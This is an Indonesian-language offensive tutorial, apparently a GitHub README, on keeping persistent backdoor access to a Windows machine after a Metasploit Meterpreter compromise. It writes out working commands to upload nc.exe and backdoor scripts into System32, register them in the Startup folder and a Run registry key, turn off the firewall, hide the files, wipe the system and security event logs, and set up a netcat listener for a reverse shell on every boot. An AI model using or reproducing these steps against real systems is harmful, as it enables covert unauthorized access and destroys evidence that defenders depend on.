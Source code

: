 # Teknik Persistence pada Target

## A. Apa Itu Persistence?

[Persistence](https://www.offsec.com/metasploit-unleashed/persistent-backdoors/) adalah teknik yang digunakan oleh seorang penyerang untuk memastikan akses terus terjaga pada mesin target meskipun sistem direboot atau pengguna melakukan logout. Pada dasarnya, teknik ini akan memastikan bahwa payload atau backdoor tetap berjalan dan dapat diakses kembali pada sesi mendatang.

## B. Teknik Persistence Manual di Windows

Berikut ini adalah langkah-langkah untuk membuat persistence di mesin target (Windows) secara manual:

### 1. Upload Semua Backdoor

   Setelah berhasil masuk ke Meterpreter dari Metasploit, upload semua bakdoor yang ada di folder `backdoor` ke target mesin.

   1. Backdoor `nc.exe`:

      ```
      upload nc.exe C:\\Windows\\System32\\nc.exe
      ```

   2. Backdoor `backdoor.bat`:

      > Pada backdoor `backdoor.bat` ubah IP Address nya sesuai dengan IP Address yang kamu punya.

      ```
      upload backdoor.bat C:\\Windows\\System32\\backdoor.bat
      ```

   3. Backdoor `backdoor.vbs`:

      ```
      upload backdoor.vbs C:\\Windows\\System32\\backdoor.vbs
      ```
      
### 2. Salin Backdoor `backdoor.vbs` ke Folder Startup

> Pada bagian ini sampai ke Hapus Log, di meterpreter metasploit ketikkan shell untuk masuk ke CMD target mesin.

```
copy C:\Windows\System32\backdoor.vbs "C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
```

Ganti <USERNAME> dengan nama user yang ada pada target.

### 3. Tambahkan ke Registry

```
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "C:\Windows\System32\backdoor.vbs" /f
```

### 4. Matikan Firewall

```
netsh advfirewall set allprofiles state off
```

###  5. Sembunyukan File

```
attrib +h C:\Windows\System32\nc.exe
attrib +h C:\Windows\System32\backdoor.bat
```
### 6. Hapus Log

```
wevtutil cl system
wevtutil cl security
```

### Siapkan Listener

```
nc -lvp 4444
```

Saat sistem target dinyalakan atau direstart, akses CMD dari sistem target akan diperoleh secara otomatis.
